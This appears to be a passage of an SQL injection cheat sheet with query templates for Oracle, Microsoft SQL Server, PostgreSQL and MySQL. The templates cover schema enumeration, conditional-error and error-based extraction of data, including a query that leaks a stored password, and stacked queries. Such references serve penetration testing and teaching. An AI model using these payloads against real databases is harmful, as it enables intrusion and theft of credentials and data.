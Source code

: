 ## Database contents

You can list the tables that exist in the database, and the columns that those tables contain.

|   |   |
|---|---|
|Oracle|`SELECT * FROM all_tables   SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`|
|Microsoft|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|
|PostgreSQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|
|MySQL|`SELECT * FROM information_schema.tables   SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'   `|

## Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

|   |   |
|---|---|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`|
|Microsoft|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`|
|PostgreSQL|`1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`|

## Extracting data via visible error messages

You can potentially elicit error messages that leak sensitive data returned by your malicious query.

|   |   |
|---|---|
|Microsoft|`SELECT 'foo' WHERE 1 = (SELECT 'secret') > Conversion failed when converting the varchar value 'secret' to data type int.`|
|PostgreSQL|`SELECT CAST((SELECT password FROM users LIMIT 1) AS int) > invalid input syntax for integer: "secret"`|
|MySQL|`SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret'))) > XPATH syntax error: '\secret'`|

## Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

|   |   |
|---|---|
|Oracle|`Does not support batched queries.`|
|Microsoft|`QUERY-1-HERE; QUERY-2-HERE   QUERY-1-HERE QUERY-2-HERE`|
|PostgreSQL|`QUERY-1-HERE; QUERY-2-HERE`|
|MySQL|`QUERY-1-HERE; QUERY-2-HERE`|
